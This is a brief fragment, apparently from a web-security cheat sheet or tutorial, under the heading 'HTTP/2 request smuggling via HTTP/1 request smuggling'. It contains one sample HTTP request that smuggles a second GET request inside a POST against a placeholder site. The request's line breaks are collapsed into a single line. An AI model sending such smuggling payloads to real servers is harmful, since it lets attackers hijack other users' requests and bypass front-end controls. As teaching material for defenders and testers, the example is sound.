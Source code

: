 </div>

### **HTTP/2 request smuggling via HTTP/1 request smuggling**

```
POST /vulnerable-endpoint HTTP/1.1 Host: vulnerable-website.com Connection: keep-alive Content-Type: application/x-www-form-urlencoded Content-Length: 34 GET /hopefully404 HTTP/1.1 Foo: xGET / HTTP/1.1 Host: vulnerable-website.com
```
